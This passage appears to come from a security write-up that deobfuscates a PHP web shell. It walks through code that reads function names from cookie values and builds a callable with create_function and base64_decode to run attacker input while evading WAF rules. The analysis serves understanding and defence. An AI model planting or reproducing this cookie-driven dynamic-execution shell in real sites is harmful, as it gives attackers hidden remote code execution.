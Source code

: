 We can further reduce the complexity by removing some more of the obfuscation. The shell seems to be avoiding possible WAF rules by splitting its input across pairs of parameters that are then concatenated back together. Let's remove half of each pair and assume we'll be passing an empty string for the removed half. (e.g. `"str"."ing"` becomes `"string".""`)

```php
01  $qr = $g[33];
02  $iv = $qr($g[78]);
03  $_iv = $qr($g[12]);
04  $_iv = @$iv($g[10], $_iv($qr($g[53])));
05  @$_iv();
```

We've now reduced the code to a point where we need to start interpreting the logic. It appears that the cookie values are being used to construct function name strings. PHP allows you to use a variable as a function name, and when followed by parentheses and arguments, will attempt to look up the function and execute it. That's exactly what this code is doing; we just need to guess what functions are being called to create a web shell.

The logic here is a bit tricky to describe, so here goes nothing. First, a function name is read from the cookie into `qr`. That function is then used to generate another function name from a cookie value and store it in `iv`. We do this again a third time with a different cookie value and store the result in `_iv`. Finally, we use the remaining two cookie values and the three computed function names to generate a final function name. That final function is then executed with no parameters.

What are these functions being specified in the cookie values? How do they work together to create a reverse shell? It would be _great_ if we had some logs of an active attack so we could see the payloads used...but we don't. So let's see if we can figure it out ourselves.

I assumed the shell author needed three things: support for special characters ([`base64_decode`](https://www.php.net/manual/en/function.base64-decode.php)), execution of shell commands ([`shell_exec`](https://www.php.net/manual/en/function.shell-exec.php)), and printing the command output ([`echo`](https://www.php.net/manual/en/function.echo)). There was one problem with my assumptions: the functions for those three things all use one parameter. On line four above, you can see the `iv` function takes two.

After scouring the PHP documentation, I came across the [`create_function`](https://www.php.net/manual/en/function.create-function.php) function. There's a big warning in the documentation that it's been deprecated as of PHP 7.2.0, but it seemed to work on my local 7.4 version so I gave it a shot anyway. The `create_function` function takes two arguments: a string of arguments, and a string of PHP code. It then creates an anonymous (lambda-style) function that can be executed.

Now that we have a set of functions to work with that fit the required number of parameters, let's see which ones we can overlay on the web shell code so it makes sense.

```php
01  $qr = "base64_decode";
02  $iv = $qr(base64_encode("create_function"));
03  $_iv = $qr(base64_encode("base64_decode"));
04  $_iv = @$iv($g[10], $_iv($qr($g[53])));
05  @$_iv();
```

If we assume the cookie value `$g[33]` will be the string `base64_decode`, the values for `$iv` and `$_iv` will need to be base64 encoded so they decode to valid function names. Let's rewrite line four and replace the variable names with their actual values.

